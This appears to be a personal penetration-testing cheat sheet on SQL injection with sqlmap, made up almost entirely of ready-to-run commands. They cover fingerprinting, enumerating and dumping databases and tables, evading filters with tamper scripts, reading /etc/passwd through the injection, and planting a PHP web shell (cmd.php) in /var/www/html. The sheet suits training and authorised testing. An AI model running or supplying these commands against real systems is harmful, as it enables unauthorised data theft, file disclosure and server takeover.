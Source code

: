```yaml
---
title: "SQL Injection"
date: 2024-6-30s
tags: ["SQL", "SQL Injection", "MySQL", "Sqlmap", "Nosql", "Sqlite", "SQLi", "Burpsuite", "Database Dumping", "Database"]
---
```


### sqlmap

```console
# In Burp Suite, we can right click the request and click `copy to file` to save the request
# And add `*` to request to indicate the sql injection point
```

<br>

```console
# Initial testing HTTP
sqlmap -r request --batch --banner --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10
```

```console
# Initial testing HTTPS
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 --force-ssl
```

```console
# Add a string to indicate injection succeed (e.g. Invalid User vs Error Occurred)
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 --string 'Invalid User'
```

```console
# Get databases
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 --dbs
```

```console
# Get tables
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 -D <DB_NAME> --tables
```

```console
# Dump table
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 -D <DB_NAME> -T <TABLE_NAME> --dump
```

```console
# Dump all tables (slow)
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 -D <DB_NAME> --dump
```

```console
# Specify technique
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 --technique U
```

#### Technique

```console
+------------------------+
| B: Boolean-based blind |
| E: Error-based         |
| U: Union query-based   |
| S: Stacked queries     |
| T: Time-based blind    |
| Q: Inline queries      |
+------------------------+
```

#### Advance sqlmap

```console
# File write
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 --random-agent --file-write ./cmd.php --file-dest /var/www/html/cmd.php
```

```console
# Add payload tamper script, e.g. randomcase
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 --tamper randomcase
```

```console
# Check privileges
sqlmap -r request --privileges
```

```console
# Read a file
sqlmap -r request --file-read=/etc/passwd
```

```console
# Write a file
sqlmap -r request --file-write=./test.txt --file-dest=/tmp/test.txt
```

#### tamper.py template

```python
#!/usr/bin/env python3

from lib.core.enums import PRIORITY
__priority__ = PRIORITY.NORMAL

def dependencies():
    pass

def tamper(payload, **kwargs):
    return payload
```

<small>*Note: create an empty \_\_init\_\_.py in the same folder*</small>
